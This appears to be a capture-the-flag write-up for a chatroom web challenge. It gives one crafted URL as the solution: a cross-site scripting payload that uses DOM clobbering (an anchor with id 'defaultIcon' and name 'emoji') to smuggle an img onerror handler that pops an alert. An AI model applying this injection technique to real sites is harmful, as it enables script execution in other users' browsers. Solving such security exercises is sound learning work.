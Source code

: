 # Challenge

With chatroom: https://chal39-rfh85-a4e8a8b41487.herokuapp.com (use Chrome), inject an alert("HACKED")

# Solution

```
https://chal39-rfh85-a4e8a8b41487.herokuapp.com/?username=%3Ca%20id=%22defaultIcon%22%20name=%22emoji%22%20href=%22//%3Cimg%20src=%27x%27%20onerror=%27alert(`HACKED`)%27/%3E%22%3E%3C/a%3E&messages=1,2,3
```